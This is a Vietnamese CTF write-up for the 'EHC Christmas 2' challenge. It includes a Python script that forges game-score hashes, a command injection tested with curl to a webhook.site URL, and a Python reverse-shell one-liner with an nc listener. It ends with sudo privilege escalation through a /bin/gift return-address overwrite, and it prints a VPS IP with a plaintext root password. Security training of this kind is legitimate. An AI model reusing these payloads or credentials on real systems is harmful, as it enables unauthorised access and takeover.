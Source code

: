 # EHC Chirtsmas 2

## Phase1: 

- Dùng wireshark bắt tập tin của game

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/b339bd83-3b59-4516-b72e-1a232ec4a17a)


- Check được request của game gửi lên server:

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/929eb871-2fd0-4586-9ee1-e8d1cd236d4d)


Check code thì thấy đoạn hash ( sử dụng dotPeek để mở code vì file code là .Net)

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/a2d1830f-da98-4c82-a8f3-25052960befc)


Code lại hàm hash

```python
import requests
import hashlib
import json

class PlayerStatus:
    def __init__(self):
        self.mssv = ""
        self.score = ""
        self.md5 = ""
        self.access_token = ""

class Game:
    def __init__(self):
        self.player = PlayerStatus()
        self.url = "http://165.22.60.153/"

    def request_token(self):
        # Prepare and send the HTTP request for token
        data = {'mssv': self.player.mssv}
        headers = {'Content-Type': 'application/json'}
        response = requests.post(self.url + "auth", headers=headers, json=data)

        if response.status_code == 200:

         # Deserialize the response content to get the token
            token_data = response.json()
            self.player.access_token = token_data.get('access_token', '')
            return True
        else:
            return False

    def send_score(self):
        mssv = self.player.mssv
        score = self.player.score
        alpha = "abcdefghijklmnopqrstuvwxyz01234"
        md5 = hashlib.md5()

        # Constructing the string from mssv
        temp = "FU" + ''.join([mssv[i] for i in [5, 6, 2, 4, 7, 0, 3, 1]])
        
        # Bit manipulation and MD5 hash generation
        arr = [0] * 16
        j = 0
        for i in range(0, 16, 8):
            arr[i] = ord(temp[j]) >> 3 & 31
            arr[i + 1] = (ord(temp[j]) << 2 | ord(temp[j + 1]) >> 6) & 31
            arr[i + 2] = ord(temp[j + 1]) >> 1 & 31
            arr[i + 3] = (ord(temp[j + 1]) << 4 | ord(temp[j + 2]) >> 4) & 31
            arr[i + 4] = (ord(temp[j + 2]) << 1 | ord(temp[j + 3]) >> 7) & 31
            arr[i + 5] = ord(temp[j + 3]) >> 2 & 31
            arr[i + 6] = (ord(temp[j + 3]) << 3 | ord(temp[j + 4]) >> 5) & 31
            arr[i + 7] = ord(temp[j + 4]) & 31
            j += 5

        arr2 = [ord(alpha[i]) for i in arr]
        arr3 = [ord(c) ^ 105 for c in score]

        # Combining and hashing the arrays
        res = arr2 + arr3
        buffer = bytes(res)
        md5.update(buffer)
        self.player.md5 = md5.hexdigest()
        print("Hash:", self.player.md5)

        # Prepare and send the HTTP request
        headers = {'Authorization': f'Bearer {self.player.access_token}'}
        print("token:", headers)
        data = {'score': self.player.score, 'hash': self.player.md5}
        response = requests.post(self.url + "score", headers=headers, json=data)
        return response.text

# Example usage
game = Game()

# User input for MSSV and score
game.player.mssv = input("Enter your MSSV (student ID): ")
game.player.score = input("Enter your score: ")

# Request token
if game.request_token():
    print("Token acquired successfully.")
    response_content = game.send_score()
    print("Response:",response_content)
else:
    print("Failed to acquire token.")

```

- Từ đoạn code này ta có thể can thiệp điểm số trên server của mỗi MSSV có thể sửa chỉnh tùy ý

## Phase 2:

- Sau khi đã can thiệp vào chỉnh sửa điểm thì ta có thể khẳng định đây là chain để khai thác. Nhưng sau khi thử 7749 các payload chỉnh số, bof, dùng hex thì nhận được thông báo lỗi là “score must be integer”

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/129b627c-27e0-4089-a70e-ce694cadf749)


- Tới đây cũng khá stuck nhưng mình nghĩ tới một loại lỗ hổng cũng hay được sử dụng trong các tình huống như thế này là `command injection` vì từ đầu author đã nói RE → RCE → Leo Root nên mình nghĩ ngay tới trường hợp này. Nhưng mình cũng đã thử và hầu như bị giống lỗi tới trên ảnh.

- Mình thử dùng webhook xem liệu có thể curl đc về không

Payload:  curl https://webhook.site/290976bf-bd78-4269-ad3a-8465aba5b3ad

Chạy code ta sẽ thấy có thông báo pop về webhook nhưng không có content, đó cũng chính dấu hiệu để ta nghĩ tới reverse shell:

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/7656b8d3-0dec-438e-b288-5d6ce32ac722)


Shell: 

https://www.revshells.com/

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your_vps",your_port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- Ở đây ta có thể dùng nc -lvnp port bất kỳ để có thể dùng cho vps

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/4441047c-8a9e-4487-927d-2c773dbdf11e/ca261e48-878a-4a21-b437-ea4eeba97415/Untitled.png)

Vdu ở đây mình có 1 vps 

karim: [206.189.32.66](https://l.facebook.com/l.php?u=http%3A%2F%2F206.189.32.66%2F%3Ffbclid%3DIwAR1J4Rn3sSYoq2Sau9ill_kK3p6v-E4DyYG7DGdAkg-wnZYQrJKIvjVZ438&h=AT0JdfaMHEEKz-3sAhUF8wj3iBaI5iaoOU0Etjg-DnW3p9sYVBQsEOGD4R1ZEM9Br5ExZd88fZva_sqLNsTqWh1vlf_wvNBn9tv2HADUkqrr22jDtiXeMogBvBSXK5JCzRKvhg)

user: root
password: 2FGRrD3KaFrxUrCJFuaQp

Tạo 1 port để reverse shell vô 

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/120d7a86-1df2-4436-b011-866ec11da156)


Revshell thành công 

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/3971502a-1c9c-45e4-a324-1502da6acd2d)

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/d9bb0b07-540f-4e70-8f0b-af1bb3407ea3)


- Đi dạo một vòng lật tung server ta sẽ khó có thể thấy điều gì khả nghi, lúc này thử sudo su nhưng không được nên mình thử sudo -l

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/86453440-b210-45d9-88b9-8f4f374a6b2d)


- Mình thấy nó hiện NOPASSWD: /bin/gift nên thử xem thì biết đó là 1 file execute của linux.


## Phase3: 

- Sau khi có được file gift mình bắt đầu reverse file này, nó là elf64, yêu cầu 2 argument lúc chạy một cái là tên một cái là wish number, r lúc chạy yêu cầu nhập thêm 1 số, rồi sau đó gọi hàm check.

- Debug một hồi thì phân tích nhẹ sau:

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/8e463a55-ff29-45b5-883b-717bbf62f698)


- Ý đồ của tác giả muốn nhảy đến là chỗ leave rax, forma, mà trong code k có chỗ nào gọi cái hàm này. Nên là mk nghĩ đến lệnh ret để return đến một địa chỉ trên stack, mà trong các function đc gọi có dùng input từ mk chỉ có 1 function có lệnh ret thôi chính. Vậy nên mình phải sửa đc địa chỉ return của hàm này để point đến địa chỉ mình trả về. Cụ thể địa chỉ mình muốn trở về có đuôi là 0x56 cái chỗ đã nói ở trên và trong cái hàm có lệnh ret, có 1 chỗ cho phép mình có thể ghi vào 1 vùng nhớ đc tính toán dựa trên input mình nhập vào.

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/c0f15fbb-e68c-4b4d-8ccd-db1c0c87a9c1)


- Địa chỉ pointer_name với địa chỉ của cái mk trỏ đến là đc hardcode dựa vào cùng 1 base và mình tính độ lệnh giữa 2 chỗ này thì wish_number tính được là -40. Debug đoạn code tên tìm đc giá trị của `pointer_name` ( cái này mình đặt cho dễ hiểu ). Trong ida thì nó là địa chỉ của biến dest trong IDA và nó tính là địa chỉ của pointer_name + giá trị của wishnumber. Chính là địa chỉ sẽ đc ghi đè giá trị processed_number, là cái number mk enter vào sau đó. Và mình đang muốn ghi đề giá trị trả về của hàm này trên debuger mình sẽ xác định đc địa chỉ trả về của hàm này. Địa chỉ trả về của hàm này cách địa chỉ trả về của ida một khoảng k đổi = -40, -40 ở đây giúp ta nhảy đến địa chỉ trả về của function đang đc gọi.

- Sau đó mình sẽ sửa được địa chỉ trả về còn 57. Chỗ yêu cầu mình nhập vào thì nó gọi 1 hàm thay đổi cái input đấy và muốn ghi vào giá trị 0xd6. Hàm ý sẽ thực hiện là `x+157` thì tìm được `x=57` .

- Sau khi phân tích sau điều kiện cần và đủ ta sẽ thực hiện rce bằng reverse shell vào server sau đó sử dụng command sau:

       

        Payload: `sudo /bin/gift hacked wishhh -40` 

****

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/afe0d447-47d7-4437-a9a5-853124427189)


- cd /root

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/740e02df-16d3-4051-b108-eca1518c2dc4)


- Tìm được 2 file trong root và đọc root.txt đã thấy flag

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/2d517603-445f-4e13-9988-2d2b1bc81207)


![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/ad64d769-8c94-4c70-ace6-abde509eb2b5)


- Mình sẽ phân tích tiếp rất nhiều điều thú vị của thử thách này, còn rất nhiều điều mình muốn nói tạm viết lại để đỡ quên hehe~~coming soon~~
